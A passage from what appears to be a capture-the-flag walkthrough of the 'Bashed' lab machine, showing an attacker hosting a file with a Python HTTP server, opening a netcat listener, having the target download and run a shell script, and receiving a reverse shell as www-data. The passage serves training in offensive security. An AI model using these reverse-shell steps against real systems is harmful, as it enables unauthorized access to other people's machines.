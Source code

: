 ```
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

Start a netcat listener:

```
└─$ nc -nvlp 9999
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999

```

Back in the browser, let's navigate to /tmp, download the shell script, change permissions on it if necessary, and then run it:

![](<../../.gitbook/assets/6 (2) (1).JPG>)

In our netcat listener, we get a shell as "www-data":

```
└─$ nc -nvlp 9999
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.68.
Ncat: Connection from 10.10.10.68:50850.
bash: cannot set terminal process group (750): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bashed:/tmp$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bashed:/tmp$ 
```
